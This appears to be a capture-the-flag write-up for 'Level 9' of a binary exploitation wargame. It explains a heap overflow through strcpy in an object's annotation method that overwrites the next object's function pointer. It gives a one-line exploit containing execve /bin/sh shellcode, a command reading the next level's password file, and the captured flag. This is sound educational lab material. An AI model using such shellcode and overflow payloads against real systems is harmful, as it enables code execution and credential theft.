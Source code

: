 # Level 9

Here we use the behaviour of OOP creating shitty objects. The new operator working like some sort of malloc will allocate some place in the memory and call it like a function. We can easily overflow with the strcpy in the setAnotation method in the first object into the second object to put a shellcode in it which will be executed then (the first member of the object is supposed to be a function pointer).

```
./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80" + "a" * 81 + "\x0c\xa0\x04\x08"')cat /home/user/bonus0/.pass
```

**Flag:** `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
